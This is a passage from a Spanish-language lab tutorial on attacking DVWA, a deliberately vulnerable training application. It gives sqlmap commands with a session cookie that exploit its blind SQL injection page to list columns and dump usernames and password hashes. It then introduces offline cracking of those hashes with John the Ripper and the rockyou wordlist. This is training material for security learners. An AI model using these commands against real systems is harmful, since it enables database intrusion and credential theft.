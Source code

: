 3. Obtención de columnas.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" -D dvwa -T users --columns
```

4. Obtención de usuarios y contraseñas.

```
sqlmap -u "http://192.168.0.50/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=hhcma474ak8ea09kkvstrird21;" -D dvwa -T users -C user,password --dump
```

![Figura 1.4. Resultado que debemos obtener con SQLMap.](./L5/3.png)
*Figura 1.4. Resultado que debemos obtener con SQLMap*


### 4.2. Ataques a credenciales

En el ejercicio anterior hemos obtenido los usuarios y las contraseñas de DVWA. Estas contraseñas suelen (deberían) guardarse cifradas.
En esta sección se van a realizar ataques offline para tratar de romper el cifrado de dichas contraseñas.

Además, también se realizará un ataque de diccionario contra formularios (ataque online).

#### 4.2.1. Ataque offline


En primer debemos obtener las contraseñas tal y cómo se ha mostrado en el ejercicio anterior (Ejercicio 4.1). Para realizar el ataque offline se hará uso de la herramienta  `John the Ripper` junto con `hash-identifier` para identificar el tipo de hash al que nos enfrentamos (las dos preinstaladas en Kali Linux).


Para ello, nos centraremos en el hash de un usuario, en nuestro caso por ejemplo, el usuario se llama `carlos`, en tu caso podrías tener usuarios diferentes.  Esta vez emplearemos el famoso diccionario `rockyou`, un diccionario muy común en desafíos y retos de seguridad donde se premia el identificar el posible ataque por diccionario, y no tanto la creación de un diccionario como tal. El primer paso, como hemos dicho, es identificar el tipo de hash (Figura 2.1)

